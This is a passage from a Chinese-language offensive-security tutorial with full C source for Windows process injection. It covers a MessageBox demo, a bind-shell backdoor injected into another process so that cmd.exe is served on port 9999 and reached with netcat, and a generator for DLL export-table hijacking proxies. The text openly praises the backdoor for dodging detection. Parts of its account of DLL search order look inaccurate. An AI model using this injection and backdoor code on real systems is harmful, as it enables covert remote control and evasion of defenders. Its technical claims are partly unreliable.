该代码拆分来看，首先是入口处的结构体定义部分，这部分定义了一个结构体`ShellParametros`，其中包含了对于`kernel32.dll`和`user32.dll`库的操作的句柄和字符串，以及相关的函数指针类型`LOADLIBRARY`和`GETPROCADDRESS`。
```C
// Kernel32 调用约定定义
typedef HMODULE(WINAPI* LOADLIBRARY)(LPCTSTR lpFileName);
typedef FARPROC(WINAPI* GETPROCADDRESS) (HMODULE hModule, LPCSTR lpProcName);

typedef struct _ShellBase
{
    // 针对Kernel32的操作
    HANDLE KernelHandle;        // 存储句柄
    char kernelstring[20];      // 存储字符串 kernel32.dll

    // 针对User32的操作
    HANDLE UserHandle;         // 存储句柄    
    char userstring[20];       // 存储字符串 user32.dll

    // 定义函数指针
    LOADLIBRARY KernelLoadLibrary;
    GETPROCADDRESS KernelGetProcAddress;
}ShellParametros;
```
而在主函数中，首先声明了一个结构体变量`Param`，然后调用`LoadLibrary`函数加载`kernel32.dll`库，将得到的句柄存储到`Param.KernelHandle`中。接着通过调用`GetProcAddress`函数获取`LoadLibraryA`和`GetProcAddress`函数的地址，将得到的函数地址分别存储到`Param.KernelLoadLibrary`和`Param.KernelGetProcAddress`中。最后通过`printf`函数打印出获取到的`Kernel32.dll`的基址。
```C
int main(int argc, char *argv[])
{
    ShellParametros Param;

    // 得到加载基地址的工具函数
    Param.KernelHandle = LoadLibrary("kernel32.dll");
    Param.KernelLoadLibrary = (LOADLIBRARY)GetProcAddress((HINSTANCE)Param.KernelHandle, "LoadLibraryA");
    Param.KernelGetProcAddress = (GETPROCADDRESS)GetProcAddress((HINSTANCE)Param.KernelHandle, "GetProcAddress");

    printf("获取到Kernel32.dll = 0x%08X \n", Param.KernelHandle);
    printf("获取到KernelLoadLibrary = 0x%08X \n", Param.KernelLoadLibrary);
    printf("获取到GetProcAddress = 0x%08X \n", Param.KernelGetProcAddress);

    system("pause");
    return 0;
}
```

这段代码没有任何难度，相信读者能够理解其实先的核心原理，当读者运行此段代码，则会分别输出`Kernel32.dll`，`LoadLibraryA`及`GetProcAddress`这三个模块函数的基址，输出效果如下图所示；



#### 1.12.2 进程注入MsgBox弹窗

通过进程注入功能将一个具有自定位功能的函数的机器码注入到远程进程中，并运行输出一个弹窗，该功能的输出形式与前几章中的内容很相似，但却有本质的不同，首先前几章内容中我们注入的数据为纯粹的`ShellCode`代码，此类代码的缺陷在于一旦被生成则在注入时无法动态更改参数，而本章实现的注入技术则是动态填充内存并注入，从实用价值上来说本章中所演示的注入技术将更加通用及灵活。

动态弹窗的注入技术同样需要定义关键函数指针，如下将分别定义三个函数指针，这些API函数的函数指针类型定义：

 - LOADLIBRARY：LoadLibrary函数的函数指针类型，用于将动态链接库(DLL)加载到调用进程的地址空间中。
 - GETPROCADDRESS：GetProcAddress函数的函数指针类型，用于从DLL中检索导出函数或变量的地址。
 - MESSAGEBOX：MessageBox函数的函数指针类型，用于创建、显示和操作消息框。WINAPI调用约定指定了如何传递函数参数和清理堆栈。

这些函数指针类型通常用于动态加载DLL和运行时链接导出函数。通过使用这些函数指针，程序可以在运行时获取函数地址并动态调用它们。
```C
// Kernel32 调用约定定义
typedef HMODULE(WINAPI* LOADLIBRARY)(LPCTSTR lpFileName);
typedef FARPROC(WINAPI* GETPROCADDRESS) (HMODULE hModule, LPCSTR lpProcName);

// User32 中针对MessageBox的调用约定定义
typedef int(WINAPI* MESSAGEBOX)(HWND hWnd, LPCSTR lpText, LPCSTR lpCaption, UINT uType);
```

接着我们需要定义一个`ShellParametros`结构体，该结构体的作用是用与传递参数到子线程`MyShell(ShellParametros* ptr)`中以供其使用，当然读者也可以使用普通变量形式，只是普通变量在参数传递时没有传递结构方便快捷，如下从结构中可看出，我们分别传递`kernel32.dll`,`LoadLibrary`,`GetProcAddress`及`MessageBoxA`的函数地址，并附带有该函数弹窗`User_MsgBox`的提示信息；
```C
typedef struct _ShellBase
{
  // 针对Kernel32的操作
  HANDLE Kernel32Base;
  char KernelString[20]; // kernel32.dll
  
  LOADLIBRARY Kernel_LoadLibrary;
  GETPROCADDRESS Kernel_GetProcAddress;

  // 针对User32的操作
  HANDLE User32Base;
  char UserString[20];   // 存储 user32.dll 字符串
  char User_MsgBox[20];  // 存储 MessageBoxA 字符串

  // 输出一段话
  char Text[32];

}ShellParametros;
```

接着就是关于`__stdcall MyShell(ShellParametros*);`函数的封装，这是一个用于远程线程的函数定义，函数名为`MyShell`，采用`__stdcall`调用约定。该函数的参数是一个名为`ptr`的指向`ShellParametros`结构体的指针。

函数的实现包括以下步骤：

 - 1.通过调用`ptr->Kernel_LoadLibrary`函数动态加载指定的`Kernel32`和`User32`库，并将它们的句柄保存在`ptr->Kernel32Base`和`ptr->User32Base`变量中。
 - 1.使用 `ptr->Kernel_GetProcAddress` 函数获取 `User32` 库中名为 `ptr->User_MsgBox` 的导出函数的地址，并将其转换为 `MESSAGEBOX` 函数指针类型的变量 `msgbox`。
 - 1.调用 `msgbox` 函数，显示 `ptr->Text` 变量中保存的文本内容。

该函数的作用是在远程线程中动态加载`Kernel32`和`User32`库，并调用`User32`库中的`MessageBox`函数显示指定的文本内容。

```C
void __stdcall MyShell(ShellParametros*);

// 定义远程线程函数
void __stdcall MyShell(ShellParametros* ptr)
{
  ptr->Kernel32Base = (HANDLE)(*ptr->Kernel_LoadLibrary)(ptr->KernelString);
  ptr->User32Base = (HANDLE)(*ptr->Kernel_LoadLibrary)(ptr->UserString);

  // printf("动态获取到Kernel32基地址 = %x \n", ptr->Kernel32Base);
  // printf("动态获取到User32基地址 = %x \n", ptr->User32Base);

  // MESSAGEBOX msgbox = (MESSAGEBOX)(*ptr->KernelGetProcAddress)((HINSTANCE)ptr->UserHandle, "MessageBoxA");
  MESSAGEBOX msgbox = (MESSAGEBOX)(*ptr->Kernel_GetProcAddress)((HINSTANCE)ptr->User32Base, ptr->User_MsgBox);
  
  //printf("MessageBox 基地址 = %x \n", msgbox);
  msgbox(0, ptr->Text, 0, 0);
}
```

最后我们来看一下在主函数中我们需要做什么，在主函数中通过`GetProcAddress`函数分别得到我们所需要的函数入口地址，并通过调用`strcpy`函数分别将所需参数写出到`ShellParametros`结构体中保存，当一切准备就绪再通过`OpenProcess`打开远程进程，并设置一段读写执行内存空间，并调用`WriteProcessMemory`将`MyShell`函数写出到该内存中保存，最后调用`CreateRemoteThread`开辟远程线程，执行弹窗功能；

这段代码主要包括以下步骤：

 - 1.定义了一个`ShellParametros`类型的变量`Param`和一个指向`ShellParametros`结构体的指针`remote`，并声明了一个`HANDLE`类型的变量`hProcess`和一个`void*`类型的变量`p`。
 - 2.使用`LoadLibrary`和`GetProcAddress`函数获取`Kernel32`库中的`LoadLibrary`和`GetProcAddress`函数的地址，并将其保存到`Param`结构体的相应字段中。
 - 3.分别将 `kernel32.dll` 和 `user32.dll` 的文件名字符串保存到 `Param` 结构体的相应字段中，并将需要注入的代码函数名和文本字符串分别保存到 `Param` 结构体的相应字段中。
 - 4.使用 `OpenProcess` 函数打开指定 `PID` 的进程，并分别使用 `VirtualAllocEx` 函数在该进程中分配内存空间，分别保存注入代码和 `Param` 结构体的数据。
 - 5.使用 `WriteProcessMemory` 函数将注入代码和 `Param` 结构体的数据写入到指定进程中的内存空间中。
 - 6.使用 `CreateRemoteThread` 函数创建一个远程线程，将注入代码的地址和 `Param` 结构体的地址传递给远程线程，并在指定进程中执行注入的代码。

代码的作用是在指定进程中注入代码，并调用该代码中的 `MyShell` 函数，该函数将动态加载 `Kernel32` 和 `User32` 库，并调用 `User32` 库中的 `MessageBox` 函数显示指定的文本内容。
```C
int main(int argc, char* argv[])
{
    ShellParametros Param, *remote = NULL;
    HANDLE hProcess;
    void* p = NULL;

    // 进程PID
    int ProcessID = 4016;

    // 得到加载基地址的工具函数
    Param.Kernel32Base = LoadLibrary("kernel32.dll");
    Param.Kernel_LoadLibrary = (LOADLIBRARY)GetProcAddress((HINSTANCE)Param.Kernel32Base, "LoadLibraryA");
    Param.Kernel_GetProcAddress = (GETPROCADDRESS)GetProcAddress((HINSTANCE)Param.Kernel32Base, "GetProcAddress");
    // printf("获取到Kernel32.dll = %x", Param.KernelHandle);

    // 分别获取Kernel32与User32的对应字符串
    strcpy(Param.KernelString, "kernel32.dll");
    strcpy(Param.UserString, "user32.dll");

    strcpy(Param.User_MsgBox, "MessageBoxA");
    strcpy(Param.Text, "hello lyshark");

    // 根据PID注入代码到指定进程中
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, ProcessID);
    p = VirtualAllocEx(hProcess, 0, 4096 * 2, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    remote = (ShellParametros*)VirtualAllocEx(hProcess, 0, sizeof(ShellParametros), MEM_COMMIT, PAGE_READWRITE);

    WriteProcessMemory(hProcess, p, &MyShell, 4096 * 2, 0);
    WriteProcessMemory(hProcess, remote, &Param, sizeof(ShellParametros), 0);
    CreateRemoteThread(hProcess, 0, 0, (DWORD(__stdcall*)(void*)) p, remote, 0, 0);

    // MyShell(&Param);
    return 0;
}
```

至此读者可以将上述代码编译下来，但需要注意的是，由于我们采用了动态生成`ShellCode`的功能，所以在使用此类代码是应关闭编译环境中的DEP及ASLR机制，否则由于地址的动态变化我们的代码将无法成功定位函数入口，也就无法注入Shell；

> DEP（Data Execution Prevention）保护是一种防止攻击者在内存中执行恶意代码的技术。它通过将内存中的数据和代码区分开来，从而使得攻击者无法在数据区执行代码。DEP保护通过硬件和软件两种方式来实现。硬件实现通过CPU硬件中的NX位，禁止在数据区执行代码。软件实现通过操作系统内核检查每个进程中的内存页面的属性，禁止在非执行属性（NX）页面上执行代码。

> ASLR（Address Space Layout Randomization）是一种防止攻击者利用缓冲区溢出等漏洞攻击的技术。它通过在每次程序运行时随机地分配内存地址，使得攻击者难以确定内存地址的位置，从而难以实现攻击。ASLR可以在操作系统内核、编译器和二进制代码等多个层面实现，如在编译时生成随机堆栈和堆地址、加载时随机化内存基地址等。

这两种技术都可以增强操作系统的安全性，防止恶意代码的攻击和利用。DEP保护主要针对代码执行方面，ASLR则主要针对代码和数据在内存中的分布方面。同时，两者也有一些弱点和缺陷，例如DEP保护可以被一些攻击技术绕过，ASLR的随机性可能会被暴力破解或者信息泄露等方式破坏。因此，在实际应用中需要综合考虑多种安全技术，以提高系统的安全性。



修改`int ProcessID`并改为被注入进程的`PID=4016`，然后直接运行注入程序，则读者会看到被注入进程弹出了一个MessageBox提示框，则说名我们的自定义Shell已经注入成功并运行了；



#### 1.12.3 进程注入MyShell正向后门

经过前面两个小案例的总结读者应该能够理解如何自己编写一个动态`ShellCode`注入软件了，但是上述提到的这些功能并不具备真正的意义，而本章将继续延申，并实现一种可被连接的正向Shell后门，在此案例中读者需要理解一种绑定技术，在默认情况下，Windows系统中的每一个进程都存在标准输入、输出和错误流的匿名管道，而`cmd.exe`进程同样存在这三种管道，要实现正向后门，一般而言攻击者会创建一个监听指定端口的网络套接字，并将其绑定到一个命令行解释器（如 cmd.exe）的标准输入和输出流上，这样攻击者即可通过这个管道来使用远程的CMD命令行，并以此达到控制对方的目的。

将CMD绑定到套接字上通常涉及以下步骤：

 - 创建一个监听套接字，以便在客户端连接之前等待连接。监听套接字可以是TCP或UDP类型。
 - 调用bind()函数将监听套接字绑定到本地IP地址和端口上。这是让客户端知道要连接哪个地址和端口的关键步骤。
 - 调用listen()函数将监听套接字转换为被动套接字，并设置等待连接的队列的最大长度。
 - 调用accept()函数来接受客户端连接，这将创建一个新的套接字，它与客户端套接字相关联。
 - 调用CreateProcess()函数启动cmd.exe进程，并将标准输入、输出和错误流重定向到新创建的套接字上。

首先我们需要定义所需要调用的函数指针，下方代码定义了一组函数指针，每个函数指针都指向一个API函数，包括 LoadLibrary、GetProcAddress、Bind、Accept、Listen、WSAStartup、WSASocket、WSAConnect 和 CreateProcess。这些函数与动态链接库、套接字通信、网络编程、创建进程等有关。
```C
#include <iostream>
#include <winsock2.h>

#pragma comment(lib, "ws2_32.lib")

// 定义各种指针变量
typedef HMODULE(WINAPI* LOADLIBRARY)(LPCTSTR);
typedef FARPROC(WINAPI* GETPROCADDRESS) (HMODULE, LPCSTR);

typedef int (WINAPI* BIND) (SOCKET, const struct sockaddr*, int);
typedef SOCKET(WINAPI* ACCEPT) (SOCKET, struct sockaddr*, int*);
typedef int (WINAPI* LISTEN) (SOCKET, int);
typedef int (WINAPI* WSASTARTUP) (WORD, LPWSADATA);
typedef SOCKET(WINAPI* WSASOCKET) (int, int, int, LPWSAPROTOCOL_INFO, GROUP, DWORD);
typedef int (WINAPI* WSACONNECT) (SOCKET, const struct sockaddr*, int, LPWSABUF, LPWSABUF, LPQOS, LPQOS);
typedef BOOL(WINAPI* CREATEPROCESS) (LPCTSTR, LPTSTR, LPSECURITY_ATTRIBUTES, LPSECURITY_ATTRIBUTES, BOOL,DWORD, LPVOID, LPCTSTR, LPSTARTUPINFO, LPPROCESS_INFORMATION);
```
接着我们需要在原始`ShellParametros`中进行扩充，根据所需函数的多少来定义承载该函数内存地址的指针类型；
```C
typedef struct
{
  HANDLE          KernelHandle;
  char            kernelstring[20];        // 存储kernel32.dll字符串
  char            CreateProcessstring[20]; // 存放函数名字字符串
  LOADLIBRARY     KernelLoadLibrary;
  GETPROCADDRESS  KernelGetProcAddress;
  CREATEPROCESS   KernelCreateProcess;

  HANDLE      WSAHandle;
  char        wsastring[20];
  char        wsastartupstring[20];
  char        WSASocketString[20];
  char        WSAConnectstring[20];
  char        bindstring[20];
  char        acceptstring[10];
  char        listenstring[10];
  
  WSASTARTUP  ShellWsaStartup;
  ACCEPT      ShellAccept;
  BIND        ShellBind;
  WSACONNECT  ShellWsaConnect;
  WSASOCKET   ShellWSASocket;
  LISTEN      ShellListen;

  unsigned short port;
  char cmd[255];
} PARAMETROS;
```

接着再来看核心`MyShell`后门实现函数，如下代码实现了一个远程`Shell`，通过动态链接库实现对`API`函数的调用。

首先，通过调用 `LoadLibrary` 和 `GetProcAddress` 函数，获取到 `ws2.dll` 和 `kernel32.dll` 中的函数地址，分别是 WSAStartup、WSASocket、WsaConnect、Bind、Accept、Listen、CreateProcess。

然后，通过调用 `WSAStartup` 函数初始化套接字编程，创建一个套接字，并绑定在一个端口。通过 `Listen` 函数监听连接请求，并使用 `Accept` 函数接收连接请求。

当有连接请求时，使用 `CreateProcess` 函数创建一个进程，并将标准输入、输出和错误重定向到网络套接字，实现远程 Shell。
```C
// 调用的远程Shell代码
void __stdcall MyShell(PARAMETROS* ptr)
{
  STARTUPINFO si;
  struct sockaddr_in sa;
  PROCESS_INFORMATION pi;
  int s, n;
  WSADATA HWSAdata;

  // 通过GetProcAddress获取到ws2.dll中的所有函数地址
  ptr->WSAHandle = (HANDLE)(*ptr->KernelLoadLibrary)(ptr->wsastring);
  ptr->ShellWsaStartup = (WSASTARTUP)(*ptr->KernelGetProcAddress)((HINSTANCE)ptr->WSAHandle, ptr->wsastartupstring);
  ptr->ShellWSASocket = (WSASOCKET)(*ptr->KernelGetProcAddress)((HINSTANCE)ptr->WSAHandle, ptr->WSASocketString);
  ptr->ShellWsaConnect = (WSACONNECT)(*ptr->KernelGetProcAddress)((HINSTANCE)ptr->WSAHandle, ptr->WSAConnectstring);
  ptr->ShellBind = (BIND)(*ptr->KernelGetProcAddress)((HINSTANCE)ptr->WSAHandle, ptr->bindstring);
  ptr->ShellAccept = (ACCEPT)(*ptr->KernelGetProcAddress)((HINSTANCE)ptr->WSAHandle, ptr->acceptstring);
  ptr->ShellListen = (LISTEN)(*ptr->KernelGetProcAddress)((HINSTANCE)ptr->WSAHandle, ptr->listenstring);

  // 通过GetProcAddress获取到kernel32.dll中的所有函数地址
  ptr->KernelHandle = (HANDLE)(*ptr->KernelLoadLibrary)(ptr->kernelstring);
  ptr->KernelCreateProcess = (CREATEPROCESS)(*ptr->KernelGetProcAddress)((HINSTANCE)ptr->KernelHandle, ptr->CreateProcessstring);
  ptr->ShellWsaStartup(0x101, &HWSAdata);
  
  s = ptr->ShellWSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
  sa.sin_family = AF_INET;
  sa.sin_port = ptr->port;
  sa.sin_addr.s_addr = 0;
  ptr->ShellBind(s, (struct sockaddr*)&sa, 16);
  ptr->ShellListen(s, 1);

  while (1)
  {
    n = ptr->ShellAccept(s, (struct sockaddr*)&sa, NULL);
    si.cb = sizeof(si);
    si.wShowWindow = SW_HIDE;
    si.dwFlags = STARTF_USESHOWWINDOW + STARTF_USESTDHANDLES; // 0x101
    si.hStdInput = si.hStdOutput = si.hStdError = (void*)n;
    si.lpDesktop = si.lpTitle = (char*)0x0000;
    si.lpReserved2 = NULL;
    ptr->KernelCreateProcess(NULL, ptr->cmd, NULL, NULL, TRUE, 0, NULL, NULL, (STARTUPINFO*)&si, &pi);
  }
}
```

最后再来看一下实现调用的主函数，代码中通过`argv[1]`也就是命令行参数传递，并绑定到`(unsigned short)9999`端口上，通过`GetProcAddress`依次获取所需函数内存地址并使用`strcpy`初始化结构体`PARAMETROS`，最后直接调用`CreateRemoteThread`实现线程后门反弹。

 - 通过 LoadLibrary 和 GetProcAddress 函数获取到 kernel32.dll 中 LoadLibrary 和 GetProcAddress 函数的地址。然后，通过 strcpy 函数初始化一个 PARAMETROS 结构体，并填充该结构体的各个字段。
 - 通过 OpenProcess 函数打开目标进程，使用 VirtualAllocEx 函数在目标进程中分配内存，并使用 WriteProcessMemory 函数将代码和参数复制到目标进程的内存中。
 - 通过 CreateRemoteThread 函数在目标进程中创建一个线程，并将线程的入口点设置为 MyShell 函数，这样就实现了进程注入。

```C
int main(int argc, char* argv[])
{
  void* p = NULL;
  HANDLE hProcess;
  PARAMETROS parametros, * remote;
    
  if (argc == 2)
  {
    int PID = atoi(argv[1]);
    memset((void*)&parametros, 0, sizeof(PARAMETROS));
    strncpy(parametros.cmd, "cmd", sizeof("cmd") - 1);
    parametros.port = htons((unsigned short)9999);

    printf("[-] PID = %d \n", PID);
    // 获取到动态链接库加载函数地址
    parametros.KernelHandle = LoadLibrary("kernel32.dll");
    parametros.KernelLoadLibrary = (LOADLIBRARY)GetProcAddress((HINSTANCE)parametros.KernelHandle, "LoadLibraryA");
    parametros.KernelGetProcAddress = (GETPROCADDRESS)GetProcAddress((HINSTANCE)parametros.KernelHandle, "GetProcAddress");

    // 拷贝 winsock 字符串
    strcpy(parametros.wsastring, "ws2_32.dll");
    strcpy(parametros.wsastartupstring, "WSAStartup");
    strcpy(parametros.WSASocketString, "WSASocketW");
    strcpy(parametros.WSAConnectstring, "WSAConnect");
    strcpy(parametros.bindstring, "bind");
    strcpy(parametros.acceptstring, "accept");
    strcpy(parametros.listenstring, "listen");

    // 拷贝 kernel32 字符串
    strcpy(parametros.kernelstring, "kernel32.dll");
    strcpy(parametros.CreateProcessstring, "CreateProcessA");

    // 开始注入代码
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
    p = VirtualAllocEx(hProcess, 0, 4096 * 2, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    remote = (PARAMETROS*)VirtualAllocEx(hProcess, 0, sizeof(parametros), MEM_COMMIT, PAGE_READWRITE);

    WriteProcessMemory(hProcess, p, &MyShell, 4096 * 2, 0);
    WriteProcessMemory(hProcess, remote, &parametros, sizeof(PARAMETROS), 0);
    CreateRemoteThread(hProcess, 0, 0, (DWORD(__stdcall*)(void*)) p, remote, 0, 0);
    // CreateRemoteThread(hProcess, 0, 0, (DWORD(WINAPI *)(void *)) p, remote, 0, 0);
    printf("[+] 已注入进程 %d \n", PID);
  }
  return 0;
}
```

编译上述代码片段，并找到对应进程PID，通过参数`MyShell.exe 8624`传入被注入进程PID号，当注入成功后，会提示进程请求联网，此时一个不具备网络通信功能的进程，因我们注入了Shll后门，则自然就具备了网络通信的能力，如下图所示；



此时读者可下载32位版本的NC，通过使用执行命令`nc [远程IP地址] [端口]`连接到进程内部；

> 小提示：Netcat是一款网络工具，也称为nc工具，可以在不同的计算机之间进行数据传输。它可以在命令行中使用，并支持TCP/IP和UDP协议，其被誉为黑客界的瑞士军刀，是每个安全从业者不可或缺的利器。
> 官方网站：https://eternallybored.org/misc/netcat/



当连接到进程内部则会反弹一个`CMDShell`此时在该CMD下的所有操作都会被标记为宿主进程的操作，这对于躲避后门查杀等都具有重要的意义。

### 1.13 导出表劫持ShellCode加载

在`Windows`操作系统中，动态链接库`DLL`是一种可重用的代码库，它允许多个程序共享同一份代码，从而节省系统资源。在程序运行时，如果需要使用某个库中的函数或变量，就会通过链接库来实现。而在`Windows`系统中，两个最基础的链接库就是`Ntdll.dll`和`Kernel32.dll`。

Ntdll.dll是Windows系统内核提供的一个非常重要的动态链接库，包含了大量的系统核心函数，如文件操作、进程和线程管理、内存操作等等。在进程启动时，操作系统会先加载`Ntdll.dll`，并将其映射到该进程的地址空间中。由于`Ntdll.dll`是如此重要，所以任何对其的劫持都是无效的。这也是为什么说在应用层下，无论什么程序都无法修改或替换`Ntdll.dll`的原因。

另一个常见的链接库是`Kernel32.dll`，它是Windows系统最基本的用户模式API之一。该库包含了大量的系统函数，如内存管理、进程和线程管理、文件操作、设备驱动程序管理等等。与`Ntdll.dll`不同的是，`Kernel32.dll`可以被劫持或替换。在程序启动时，操作系统会先将`Ntdll.dll`加载到进程地址空间中，然后将`Kernel32.dll`加载到内存中，并将其导出函数地址添加到进程的导出表中。在程序执行过程中，如果需要使用`Kernel32.dll`中的函数，则可以通过在导出表中查找函数的地址来实现。因此，对于除`Ntdll.dll`以外的其他链接库，理论上来说都是可以被劫持或替换的。

#### 1.13.1 动态链接库加载顺序

当系统启动时，系统进程`smss.exe`会负责加载并初始化所有的系统服务和驱动程序。在此过程中，系统会先将一些常用的`DLL`文件预加载到内存中，以加快系统的启动速度。

这些常用的`DLL文件`的信息会被保存在注册表中的`\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs`路径下。



这个注册表键值包含了一个列表，其中存储了操作系统预加载的`DLL文件`的名称和路径。当操作系统需要加载某个`DLL`时，它会先在这个列表中查找，如果找到了对应的`DLL`文件，就会直接从预加载的内存中加载这个DLL，而不是从磁盘上重新读取。预加载DLL的优点是可以加快系统的启动速度，因为预加载的DLL文件已经被缓存到内存中，可以直接从内存中读取，而不需要再次从硬盘中读取。这样可以避免由于磁盘读写速度较慢而导致的启动延迟。

读者需要注意，预加载的`DLL`文件仅包含了系统中一些常用的`DLL`文件，而不包括所有的`DLL`文件。当程序需要加载一个没有被预加载的`DLL文件`时，操作系统会从磁盘上读取这个`DLL`文件，并将其加载到内存中。这种情况下，DLL文件的加载顺序是按照程序需要的顺序来进行的。当一个程序需要多个`DLL`文件时，这些`DLL`文件的加载顺序是有先后顺序的，通常是从最基本的`DLL`文件开始，逐步向上层的`DLL`文件进行加载。这种顺序可以保证程序的正确性和稳定性。

程序需要加载某个DLL文件时，系统会按照如下顺序动态查找：

 - 1.首先查找应用程序自身目录，如果DLL文件存在于应用程序的目录下，则直接加载这个DLL文件。
 - 2.如果DLL文件不存在于应用程序的目录下，则系统会查找系统目录`C:\Windows\System32`或`C:\Windows\SysWOW64`，如果DLL文件存在于系统目录下，则直接加载这个DLL文件。
 - 3.如果DLL文件既不存在于应用程序的目录下，也不存在于系统目录下，则系统会查找环境变量PATH所指定的路径。如果DLL文件存在于PATH所指定的路径中的任意一个目录下，则直接加载这个DLL文件。
 - 3.如果DLL文件还是没有被找到，则系统会尝试从注册表中查找DLL文件所对应的路径。这个过程是通过查找注册表键`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\DLLDirectories`下的子键完成的，这些子键包含了DLL文件所在的目录路径。
 - 4.如果在注册表中还没有找到DLL文件，则系统会在所有已加载的DLL文件中查找是否有该DLL文件的导入项。如果存在，则说明该DLL文件已经被其他DLL文件加载，系统会尝试使用已加载的DLL文件来满足当前程序的需要。
 - 5.如果前面的步骤都没有找到DLL文件，则系统会提示找不到所需的DLL文件，并终止当前进程的执行。

#### 1.13.2 实现DLL劫持代码生成

根据上方描述，读者应该能发现一个问题，如果在某个`lyshark.exe`应用程序根目录下重命名一个与其所调用DLL相同名称的DLL，而把原始DLL文件更名为其他名称，当应用程序调用时则该调用将被我们自己的DLL所接管，当处理完时则把这个请求传递给原始DLL执行，此时原函数依然可以被执行，而我们就算做了一个中间商，我们则可以在调用之间增加自己的功能，以此来实现应用功能的劫持及插入；

要实现上述功能，则我们需要得到指定DLL模块中所有的导出函数名称及导出序号，并将其通过`/EXPORT:%s=%s.%s,@%d`的方式生成一个新的DLL文件，有了思路那么就开始实现吧；

首先需要做的是打开一个DLL文件，并定位到`PIMAGE_NT_HEADERS`头部，将头部指针返回给全局变量`NtHeader`存储，实现该功能的核心是通过`ReadFile`将文件读入内存，并通过`PIMAGE_NT_HEADERS`强转为指针类型，将该数据存储到全局变量内保存；
```C
#define _CRT_SECURE_NO_WARNINGS
#include <stdio.h>
#include <Windows.h>

PIMAGE_DOS_HEADER DosHeader = nullptr;
PIMAGE_NT_HEADERS NtHeader = nullptr;
DWORD FileBase = 0;

void OpenPeFile(LPCSTR FileName)
{
  HANDLE Handle = CreateFileA(FileName, GENERIC_READ, NULL,NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
  if (Handle == INVALID_HANDLE_VALUE)
    return;
  
  DWORD FileSize = GetFileSize(Handle, NULL);
  DWORD OperSize = 0;
  FileBase = (DWORD)new BYTE[FileSize];
  ReadFile(Handle, (LPVOID)FileBase, FileSize, &OperSize, NULL);

  // 获取DOS头并判断是不是一个有效的DOS文件
  DosHeader = (PIMAGE_DOS_HEADER)FileBase;
  if (DosHeader->e_magic != IMAGE_DOS_SIGNATURE)
    exit(0);

  // 获取 NT 头并判断是不是一个有效的PE文件
  NtHeader = (PIMAGE_NT_HEADERS)(FileBase + DosHeader->e_lfanew);
  if (NtHeader->Signature != IMAGE_NT_SIGNATURE)
    exit(0);
  
  CloseHandle(Handle);
}
```

接着需要实现一个地址转换功能以用于导出函数解析时使用，将`RVA（相对虚拟地址）`转换为`FOA（文件偏移地址）`，RVA是相对于模块基址的偏移量，而`FOA`是相对于文件开头的偏移量，该函数的实现原理是遍历`PE文件`中所有的节`（Section）`，找到包含给定`RVA`的节，并计算出相应的FOA。

首先获取`PE文件`中节表的指针，然后遍历所有节，对于每个节，计算该节的起始`RVA`和结束`RVA`，并判断给定的`RVA`是否在该节的地址范围内。如果找到包含给定`RVA`的节，则根据该节的信息计算出该`RVA`对应的`FOA`并返回。
```C
DWORD RVAtoFOA(DWORD rva)
{
  auto SectionTables = IMAGE_FIRST_SECTION(NtHeader);
  WORD Count = NtHeader->FileHeader.NumberOfSections;
  for (int i = 0; i < Count; ++i)
  {
    DWORD Section_Start = SectionTables[i].VirtualAddress;
    DWORD Section_Ends = SectionTables[i].VirtualAddress + SectionTables[i].SizeOfRawData;
    if (rva >= Section_Start && rva < Section_Ends)
    {
      return rva - SectionTables[i].VirtualAddress + SectionTables[i].PointerToRawData;
    }
  }
  return -1;
}
```
有了前面的基础，我们就可以实现导出表劫持功能了，如下所示`GenerateEAT`则是一个导出文件生成工具，其传入一个DLL文件名，及原函数名`前缀/劫持后名称`，并自动生成一个可编译的DLL源程序，读者只需要拿到源程序进行编译即可得到一个导出表劫持DLL了，这段C代码实现原理如下所示；

 - 1.通过`CreateFileA`和`ReadFile`函数获取`PE文件`的内容，然后获取其`DOS`头和`NT`头。
 - 2.通过`NT头`的`数据目录`中的`导出表`的虚拟地址，定位导出表的位置，并获取导出表的信息，包括导出函数数量、导出函数名称数量、函数地址表、函数名称表、函数名称序号表等。
 - 3.遍历导出函数名称表，获取每个导出函数的名称，并以该名称作为导出函数的别名，通过`#pragma comment`语句将导出函数别名和实际函数名映射到导出表中，从而实现对导出函数的劫持和代理。
 - 4.使用`fwrite`函数将生成的代理`DLL`的代码写入到新的`DLL`文件中，并使用`fclose`函数关闭文件句柄。

```C
void GenerateEAT(char* FileName, char* OldDllName)
{
  DWORD rav = NtHeader->OptionalHeader.DataDirectory[0].VirtualAddress;
  auto ExportTable = (PIMAGE_EXPORT_DIRECTORY)(RVAtoFOA(rav) + FileBase);

  DWORD NameCount = ExportTable->NumberOfNames;
  DWORD FunctionCount = ExportTable->NumberOfFunctions;

  DWORD* Addr_Table = (DWORD*)(RVAtoFOA(ExportTable->AddressOfFunctions) + FileBase);
  DWORD* Name_Table = (DWORD*)(RVAtoFOA(ExportTable->AddressOfNames) + FileBase);
  WORD* Id_Table = (WORD*)(RVAtoFOA(ExportTable->AddressOfNameOrdinals) + FileBase);

  FILE* fp = fopen(FileName, "a+");
  char buf[8192] = { 0 };

  sprintf(buf, "// PowerBy:LyShark\n#include <stdio.h>\n#include <windows.h>\n\n");
  fwrite(buf, strlen(buf), 1, fp);

  for (DWORD i = 0; i < FunctionCount; ++i)
  {
    for (DWORD j = 0; j < NameCount; ++j)
    {
      if (i == Id_Table[j])
      {
        CHAR* Name = (CHAR*)(RVAtoFOA(Name_Table[j]) + FileBase);
        sprintf(buf, "#pragma comment(linker, \"/EXPORT:%s=%s.%s,@%d\") \n",Name, OldDllName, Name, i + 1);
        fwrite(buf, strlen(buf), 1, fp);
        _flushall();
        Sleep(20);
        printf("%s", buf);
        break;
      }
    }
  }
  sprintf(buf,
    "\nBOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)\n"
    "{\n"
    " if (dwReason == DLL_PROCESS_ATTACH)\n"
    " {\n"
    "   DisableThreadLibraryCalls(hModule);\n"
    " }\n"
    " return TRUE;\n"
    "}\n");
  fwrite(buf, strlen(buf), 1, fp);
  _fcloseall();
}
```
